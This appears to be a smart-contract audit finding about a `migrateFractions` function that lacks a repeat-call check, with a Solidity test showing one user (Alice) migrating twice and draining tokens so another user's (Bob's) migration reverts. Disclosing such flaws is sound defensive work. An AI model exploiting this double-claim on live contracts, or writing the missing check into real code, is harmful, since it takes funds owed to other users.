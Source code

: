Since the function does not check if the user had already called it, a user may call it more than once, allowing them to gain more new vault tokens than they are owed. If a user repeatedly uses this function to gain new tokens then other users may not be able to get their new tokens.

### Proof of Concept

Test code added to `Migrations.t.sol`:

The test code below shows the first user (Alice) migrating their tokens to the new vault twice before the second user (Bob) calls `migrateFractions` which then fails.

```solidity
	function testMigrateFractionsAgain() public {
        // Setup
        testSettle();
        (, , , , address newVault, , , , ) = migrationModule.migrationInfo(
            vault,
            1
        );
        (address newToken, uint256 id) = registry.vaultToToken(newVault);

        // First user migrates fractions twice
        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), TOTAL_SUPPLY * 2);            // Confirm Migration has all new tokens

        assertEq(getFractionBalance(alice.addr), 4000);                         // Alice joined with 1 ether and 1000 fractions
        alice.migrationModule.migrateFractions(vault, 1);
        assertEq(IERC1155(newToken).balanceOf(alice.addr, id), 6000);           // Alice's shares == 6000

        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), TOTAL_SUPPLY * 2 - 6000);            // Confirm Migration loses new tokens

        alice.migrationModule.migrateFractions(vault, 1);
        assertEq(IERC1155(newToken).balanceOf(alice.addr, id), 12000);          // Confirm Alice gains 6000 new tokens again

        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), 8000);            // Confirm Migration loses new tokens

        // Second user attempts to migrate fractions
        assertEq(getFractionBalance(bob.addr), 0);                              // Bob joined with 1 ether and 5000 fractions (all of his fractions)
        vm.expectRevert(stdError.arithmeticError);
        bob.migrationModule.migrateFractions(vault, 1);                         // Bob is unable to call migrateFractions and gain new tokens because the migration module does not contain enough tokens
        assertEq(IERC1155(newToken).balanceOf(bob.addr, id), 0);                // Confirm Bob does not gain any new tokens (supposed to gain 14,000 tokens)
    }
```
